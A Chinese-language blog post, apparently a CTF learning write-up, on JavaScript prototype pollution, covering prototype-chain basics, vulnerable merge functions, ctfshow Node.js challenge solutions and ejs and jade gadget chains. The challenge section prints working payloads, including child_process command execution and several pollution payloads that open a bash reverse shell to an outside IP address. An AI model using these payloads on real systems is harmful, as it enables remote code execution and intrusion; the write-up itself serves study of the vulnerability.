+++
title = "JavaScript原型链污染"
slug = "javascript-prototype-pollution"
description = "pollution_start!"
date = "2025-01-31T19:25:47"
lastmod = "2025-01-31T19:25:47"
image = ""
license = ""
categories = ["talk"]
tags = ["姿势"]
+++

# 0x01 

前面很早就知道有这个姿势，但是一直拖欠，包括打ctfshow的时候也是一把锁，后面学了flask的原型链污染觉得很有意思，来学习一下，把坑填了

# 0x02 

## `prototype`&&`__proto__`

零基础没关系，我们只要知道属性这个东西就可以，最简单的demo

```js
function Foo() {
    this.bar = 1
    this.show=function (){
        console.log(this.bar)
    }
}

(new Foo()).show()
```

就可以看到打印出来了`1`，但是如果我们不仅仅是只创建了这一个对象，而是很多个`Foo`，那我们每次都要新建一个`show`方法，对此，我们可以利用`prototype`来完成

```js
function Foo(){
    this.bar=1
}
Foo.prototype.show=function(){
    console.log(this.bar)
};
(new Foo()).show()
```

`prototype`是个啥呢，我们在代码中就可以看出是一个属性，并且`Foo.prototype`是等效于`Foo()`原型的，看看官方文档



文档其中也意识到了利用这个属性访问原型进行覆盖属性的问题，也就是原型链污染问题，但是要想这么利用我们必须要拿到`Foo()`，如果我们是生成出来的对象呢，如何访问原型

```js
function Foo() {
    this.bar = 1;
}

Foo.prototype.show = function() {
    console.log(this.bar);
    return this;
};

let a = new Foo();
a.__proto__.test=function (){
    console.log("win");
    return this;
}
console.log(a.test());

if (a.__proto__==Foo.prototype){
    console.log("Yees");
}
```

我们可以使用`__proto__`，相信很多师傅，经常在一些简单的题目中使用到这个属性，而这么一看我们很容易就知道`a.__proto__==Foo.prototype`，也就是说`prototype`是一个属性，每个对象都有，且可通过他访问所有对象的原型(此例中为Foo)，`__proto__`为一个属性，可以利用来访问对象的`prototype`属性，最后达到访问原型的效果

## 继承

知道了上面两个属性之后，我们就很容易像`flask`的一样做实验了

```js
function Father() {
    this.first_name = 'Donald'
    // this.last_name = 'Trump'
}

function Son() {
    this.first_name = 'Melania'
}

Son.prototype = new Father()
// Object.prototype.last_name = 'Trump'
let son = new Son()
console.log(`Name: ${son.first_name} ${son.last_name}`)
```

这里的回显是`Name: Melania undefined`，而为什么会造成这样的结果，

> JavaScript 对象是动态的“包”属性（称为**自己的属性**）。JavaScript 对象具有指向原型对象的链接。当尝试访问对象的属性时，不仅会在对象上搜索该属性，还会在对象的原型、原型的原型上查找该属性，依此类推，直到找到具有匹配名称的属性或到达原型链的末尾。

其中的末尾指的是`Object.prototype`如果还找不到就是`null`也就是我们刚刚输出的未定义了，用P牛的话总结一下机制是

1. 在对象son中寻找last_name
2. 如果找不到，则在`son.__proto__`中寻找last_name
3. 如果仍然找不到，则继续在`son.__proto__.__proto__`中寻找last_name
4. 依次寻找，直到找到`null`结束。比如，`Object.prototype`的`__proto__`就是`null`

开干，写个最简单的demo进行值的覆盖

```js
// foo是一个简单的JavaScript对象
let foo = {bar: 1}

// foo.bar 此时为1
console.log(foo.bar,foo.__proto__)

foo.__proto__.bar = 2

// 由于查找顺序的原因，foo.bar仍然是1
console.log(foo.bar)
// Object.prototype.bar = 'Trump'
// 此时再用Object创建一个空的zoo对象
let zoo = {}

// 查看zoo.bar
console.log(zoo.bar)
```

验证污染可行的同时也验证了我们刚才说的查找顺序

## 应用场景

在ctfshow刷题的时候我就一直很苦恼，甚至被狠狠的折磨，因为有时候手写payload就是不容易一次写对对于新手来说，但是我发现后面靶机无论如何也不能污染成功了，原因是**因为一旦污染了原型链，除非整个程序重启，否则所有的对象都会被污染与影响。**回到正题应用场景这个应该是耳熟能详的了，就是类似的`merge`函数功能都可以，这里进行Debug还是以`merge`为例子

```js
function merge(target, source) {
    for (let key in source) {
        if (key in source && key in target) {
            merge(target[key], source[key])
        } else {
            target[key] = source[key]
        }
    }
}
```

放入poc

```js
let o1 = {}
let payload = {a: 1, "__proto__": {b: 2}}
merge(o1, payload)
console.log(o1.a, o1.b)

o2 = {}
console.log(o2.b)
```

发现合并属性是成功了，但是污染失败了，进行调试发现`__proto__`在代码中并没有被识别成`key`



究其根本是因为此时的`__proto__`并不是`o1`的原型，而只是一个很普通的属性，我们要使其能够正确解析为原型的话需要使用`JSON.parse`

```js
let payload = JSON.parse('{"a": 1, "__proto__": {"b": 2}}')
```

即可成功，Debug看看，首先`a`肯定是没有的，所以是直接覆盖



但是`__proto__`是在原型里面的所以进行第一条件语句



`b`和`a`一样都是`undefined`所以直接覆盖



最后完成了污染，了解了这个机制之后做点简单的题目练手

## demo

### ctfshow_nodejs专题

简单题直接放poc，难点的看看

```
ctfshow\123456
```

```
?eval=require('child_process').execSync('ls /').toString()
?eval=require( 'child_process' ).spawnSync( 'ls', [ '/' ] ).stdout.toString()
?eval=require( 'child_process' ).spawnSync( 'cat', [ '/app/fl00g.txt' ] ).stdout.toString()
```

```js
const crypto = require('crypto'); // 引入 crypto 模块

function md5(s) {
    return crypto.createHash('md5')
        .update(s)
        .digest('hex');
}

let a = {'x':'1'};
let b = {'x':'2'};
let flag = "your_secret_flag"; // 定义 flag 变量

console.log((a+flag));
console.log(md5(a + flag)); // 计算 a 和 flag 拼接后的 MD5
console.log(md5(b + flag)); // 计算 b 和 flag 拼接后的 MD5
// [object Object]your_secret_flag
// 2f97f1090b894fe22dd12594701b928a
// 2f97f1090b894fe22dd12594701b928a
```

web338跟进copy函数看到了和merge差不多的东西

```
{"__proto__":{"ctfshow":"36dboy"}}
```

web339

```js
const sum = new Function('a', 'b', 'return a + b');
console.log(sum(2, 6));

query="return 123"
console.log(Function(query)(query));
```

所以污染即可RCE [Function](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/Function)

```
{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/156.238.233.9/9999 0>&1\"')"}}
```

然后POST访问`/api`，使得函数执行

web340把对象套了一层

```
{"__proto__":{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/156.238.233.9/9999 0>&1\"')"}}}
```

web341即使是有污染的地方，但是没有地方可以执行了，这个时候就要看框架本身是否有漏洞，可以看到引用了`ejs`，上网搜索一下

```
{"__proto__":{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/156.238.233.9/9999 0>&1\"');var __tmp2"}}}
```

web342&&web343是`jade`，还是框架，参数是`login.js`里面可以看到的

```
{"__proto__":{"__proto__": {"type":"Block","nodes":"","compileDebug":1,"self":1,"line":"global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/156.238.233.9/9999 0>&1\"')"}}}
```

web344极客大挑战里面的东西

```
/?query={"name":"admin"&query="password":"%63tfshow"&query="isVIP":true}
```

### ejs经典审计

经过一会的折磨终于是给复现出来了

```
http://localhost:8888/?malicious_payload={"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('calc');var __tmp2"}}
```

代码如下

```js
var express = require('express');
var lodash= require('lodash');
var ejs = require('ejs');

var app = express();
app.set('views', __dirname);


app.get('/', function (req, res) {
    var malicious_payload = req.query.malicious_payload;

    lodash.merge({}, JSON.parse(malicious_payload));
    res.render("./test.ejs", {
        message: 'baozongwi test ',
    });
});

//设置http
var server = app.listen(8888, function () {

    var port = server.address().port

    console.log("应用实例，访问地址为 http://127.0.0.1:%s", port)
});
```

```js
//test.ejs
<!DOCTYPE html>
<html>
<body>
<h1><%= message %></h1>
</body>
</html>
```

这两个文件是在同一目录下面的并且要求版本要对，其他依赖自己安装即可

```
npm init -y
npm install ejs@3.1.5 lodash@4.17.4 express
```




首先我们看到在本来就有的`lodash`之中就有可利用的`merge`方法，查看官方文档[lodash.merge](https://www.lodashjs.com/docs/lodash.merge)，



跟进之后发现和我们常知道的merge方法基本一致，只不过其中值的替换是使用的原生方法



这里进行动态Debug之后发现并不能达到目的，跟不进`res.render`但是可以知道应该是模板渲染造成的问题





TM的卡了好几个小时，也不知道怎么解决这个问题，最后就是草草的使用一种很垃圾的方法，比如我已知`res.render`是`response.render`然后就在本身的`response.js`里面的`res.render`方法打断点，但是反观VSCODE一点毛病都没有，可以直接打断点，很好的跳转过去，所以如何解决，换工具噻，识时务者为俊杰，话不多说开始Debug，这里我们直接跟进到`res.render`



发现一堆赋值继续跟进`app.render`，算了，由于是后手挖洞，在调试到后面的时候突然弹出计算器，再Debug一遍我就找到漏洞位置了，我就简单的把跟进顺序写到这里把

```
tryRender(view, renderOptions, done);
view.render(options, callback);
this.engine(this.path, options, callback);
tryHandleCache(opts, data, cb);
result = handleCache(options)(data);
func = exports.compile(template, options);
templ.compile();
```

然后就到了这个洞的关键代码



仔细看到

```js
if (opts.outputFunctionName) {
        prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
      }
```

如果有这个就会做一个赋值，并且是直接进行拼接的，我们可以直接覆盖一下RCEpayload，并且知道ejs渲染的问题，他会直接return，



所以成功RCE

### jade经典审计

直接拿ctfshowWeb342来打测试

```http
POST /login HTTP/1.1
Host: localhost:3000
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
Sec-Fetch-User: ?1
Referer: http://localhost:3000/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
sec-ch-ua-mobile: ?0
Content-Type: application/json
Pragma: no-cache
sec-ch-ua-platform: "Windows"
Cookie: Pycharm-b67cff77=fce87d75-f174-495d-995f-cd4b7f95bc23; Phpstorm-64fad50=45b19771-5703-4811-9cb0-4f702c4b7551; cookieconsent_status=dismiss; Webstorm-fc2011f5=4606b2a7-d9d2-43ac-8f66-4a320f0b0227; SL_GWPT_Show_Hide_tmp=undefined; SL_wptGlobTipTmp=undefined; SL_G_WPT_TO=zh
sec-purpose: prefetch;prerender
Origin: http://localhost:3000
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
purpose: prefetch
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br, zstd
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Sec-Fetch-Mode: navigate
Content-Length: 174

{"__proto__":{"__proto__": {"type":"Block","nodes":"","compileDebug":1,"self":1,"line":"global.process.mainModule.require('child_process').exec('calc')"}},"uo2a3i0d43":"="}

```

最开始以为是这里，调试了半天发现不对劲



搞了好久，发现都没有进行渲染所以这里肯定不对，然后搜到到`render`，发现在`index.js`



还是直接写调用栈，只不过这里需要发一次poc之后访问网站根目录，才能正确进入渲染

```
res.render('index',{title:'ctfshow'});
app.render(view, opts, done);
tryRender(view, renderOptions, done);
view.render(options, callback);
this.engine(this.path, options, callback);
exports.renderFile(path, options, fn);
res = exports.renderFile(path, options);
var templ = exports.compile(str, options);
```



就到关键代码了，但是好像就看到了一个覆盖`compileDebug`，没看到为啥RCE，挨着跟进看看，最后发现是跟进下图的位置





跟进一下`js = compiler.compile();`



继续到`visit`



可以看到Debug为真，会把line给拼接进去，继续跟进`visitNode`

```js
visitNode: function(node){
    return this['visit' + node.type](node);
  },
```

也就是要我们自己添加type来供其使用，这里测试出来的结果

| Method Name       | Status |
| ----------------- | ------ |
| visitAttributes   |        |
| visitBlock        |        |
| visitBlockComment | √      |
| visitCase         |        |
| visitCode         | √      |
| visitComment      | √      |
| visitDoctype      |        |
| visitEach         |        |
| visitFilter       |        |
| visitMixin        |        |
| visitMixinBlock   | √      |
| visitNode         |        |
| visitLiteral      |        |
| visitText         |        |
| visitTag          |        |
| visitWhen         |        |

到这里就是一条完整的链子了，首先要覆盖`Debug`，其中`line`是我们的恶意代码，`type`写Code，回头写出来

```
{"__proto__":{"__proto__": {"type":"Code","compileDebug":1,"line":"global.process.mainModule.require('child_process').exec('calc')"}}}
```

发现东西少了，一看还有变量是未定义的要赋值



给`self`赋值为`true`

```
{"__proto__":{"__proto__":{"compileDebug":1,"type":"Code","self":1,"line":"global.process.mainModule.require('child_process').execSync('calc')"}}}
```

就这样还少写了不少条件，`return handleTemplateCache(options)(options);`进行命令执行，成功RCE，发两次包即可成功渲染

# 0x03 小结

特别鸣谢KW师傅和挺同志，教我打断点起项目
